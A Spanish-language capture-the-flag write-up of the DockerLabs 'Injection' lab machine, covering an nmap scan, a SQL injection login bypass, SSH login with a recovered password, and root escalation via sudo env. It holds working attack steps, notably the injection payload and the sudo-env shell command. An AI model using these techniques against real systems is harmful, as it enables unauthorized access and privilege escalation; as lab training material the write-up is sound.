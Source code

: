 # Máquina Injection

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

***

## Explotación

Accedemos a la web y encontramos un **panel de login**. Por el nombre de la máquina, intentamos explotarlo con una **SQL Injection**.

Introduciendo "**admin' or 1=1-- -**" para que siempre sea verdadero, y cualquier cosa en la **password**.

![Pasted image 20240512225902](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4d8121f1-f8ab-4b0a-9fd9-ce0101d1c16c)

Conseguimos bypasearlo exitosamente!

![Pasted image 20240512230123](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/71d8d288-ede1-4bc6-a8c7-2dc74f84110c)

```
KJSDFG789FGSDF78
```

Probamos esta contraseña con el usuario **dylan** en el protocolo **ssh**.

```shell
ssh dylan@172.17.0.2
```

Estamos dentro !

***

## Escalada de privilegios

Vemos que podemos ejecutar **env** como el usuario **root**. Será tan sencillo como ejecutar:

```shell
sudo /usr/bin/env /bin/bash
```

```shell
whoami
------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema!
